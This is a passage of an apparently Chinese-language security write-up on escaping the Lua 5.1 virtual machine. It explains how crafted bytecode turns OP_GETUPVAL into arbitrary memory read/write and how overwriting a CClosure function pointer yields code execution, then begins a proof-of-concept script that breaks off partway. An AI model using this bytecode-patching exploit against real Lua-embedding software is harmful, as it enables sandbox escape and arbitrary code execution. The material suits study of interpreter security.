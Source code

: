```
case OP_GETUPVAL: {
  int b = GETARG_B(i);
  setobj2s(L, ra, cl->upvals[b]->v);
  continue;

```

GETUPVAL 6 0 其中b=0因此cl->upvals[b]->v正是我们构造的内存地址，setobj2s函数从对应的内存地址复制数据到R(6)，此后通过asnum读取内容，实现任意内存地址读操作。同理如果在middle函数中对magic进行赋值，即可实现对任意地址写内存（实际会写8字节数值以及4字节的tt类型）

0x02 代码执行
=========

* * *

LUA使用OP_CALL进行函数调用，luaD_precall中处理了C函数CALL，如下

```
/* if is a C function, call it */
    CallInfo *ci;
    int n;
    ci = inc_ci(L);  /* now `enter' new function */
    ci->func = restorestack(L, funcr);
    L->base = ci->base = ci->func + 1;
    ci->top = L->top + LUA_MINSTACK;
    ci->nresults = nresults;
    lua_unlock(L);
    n = (*curr_func(L)->c.f)(L);  /* do the actual call */

```

LUA使用lua_pushcclosure函数创建C函数闭包对象，LUA基础库luaB_cowrap会调用lua_pushcclosure，创建一个CClosure *对象，具体LUA脚本如下：

```
co = coroutine.wrap(function() end)

```

CClosure数据结构内存布局如下：

![p2](http://drops.javaweb.org/uploads/images/16b6ec161d10fdd6a48b7dd6833f5107b44be323.jpg)

其object偏移位置32为函数指针f，通过前面的内存写技术可以将f替换为指定的函数地址即可实现任意代码执行。

0x03 附：POC代码
============

* * *

```
asnum = loadstring(string.dump(function(x)
  for i = x, x, 0 do
    return i
  end
end):gsub("\96%z%z\128", "\22\0\0\128"))

ub4 = function(x) -- Convert little endian uint32_t to char[4]
  local b0 = x % 256; x = (x - b0) / 256
  local b1 = x % 256; x = (x - b1) / 256
  local b2 = x % 256; x = (x - b2) / 256
  local b3 = x % 256
  return string.char(b0, b1, b2, b3)
end

f2ii = function(x) -- Convert double to uint32_t[2]
  if x == 0 then return 0, 0 end
  if x < 0 then x = -x end

  local e_lo, e_hi, e, m = -1075, 1023
```